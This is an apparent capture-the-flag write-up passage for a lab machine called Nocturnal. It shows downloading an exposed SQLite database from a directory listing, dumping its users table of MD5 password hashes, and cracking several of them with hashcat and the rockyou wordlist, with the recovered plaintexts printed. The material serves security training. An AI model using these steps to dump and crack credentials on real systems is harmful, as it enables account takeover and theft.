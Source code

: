 ```ruby
```
####
<div class="img">
    <img src="/machines/public/nocturnal/6.png" loading="lazy" decoding="async" />
</div>

####
####
####
## First explotation phase
### SQlite3:
This will expose a directory `/var` in *8000* port, this port is a default port of python server. Making a *Directory Listing* we discovered where is the `.db` file: http://10.10.11.64:8000/www/nocturnal_database/nocturnal_database.db. So we can download that file and open with **sqlite3** or **DB Browser for SQLite** [DB-Browser](https://sqlitebrowser.org/dl/).
####
I will use a browser a **sqlite3** command.
####
```ruby
sqlite3 nocturnal_database.db
select * from users;
    Result -> 
        1|admin|d725aeba143f575736b07e045d8ceebb
        2|amanda|df8b20aa0c935023f99ea58358fb63c4
        4|tobias|55c82b1ccd55ab219b3b109b07d5061d
        6|kavi|f38cde1654b39fea2bd4f72f1ae4cdda
        7|e0Al5|101ad4543a96a7fd84908fd0d802e7db
        8|det0xgravity|cc03e747a6afbbcbf8be7668acfebee5
        9|dario|8a49317e060e23bb86f9225ca581e0a9
```
####
The are many credentials to copy and paste them into a new file to crack it whit **hashcat**. So for sanitize the data I will use this code:
####
```ruby
echo '
    1|admin|d725aeba143f575736b07e045d8ceebb
    2|amanda|df8b20aa0c935023f99ea58358fb63c4
    4|tobias|55c82b1ccd55ab219b3b109b07d5061d
    6|kavi|f38cde1654b39fea2bd4f72f1ae4cdda
    7|e0Al5|101ad4543a96a7fd84908fd0d802e7db
    8|det0xgravity|cc03e747a6afbbcbf8be7668acfebee5
    9|dario|8a49317e060e23bb86f9225ca581e0a9
' | awk  -F '|' '{print $3}' > hashes
``` 
####
| Awk param | Description |
| ----- | ----- |
| -F | Specify a separator of the data |
| print | Print fields bettween the separator character, the $1, $2, $3 |
####
Now we only have a passowrd in our **hashes** file.
####
```ruby
hashcat -a 0 -m 0 hashes /usr/share/wordlists/dictionary/rockyou.txt
    Result -> 
        8a49317e060e23bb86f9225ca581e0a9:dario
        cc03e747a6afbbcbf8be7668acfebee5:test123
        55c82b1ccd55ab219b3b109b07d5061d:slowmotionapocalypse
```
####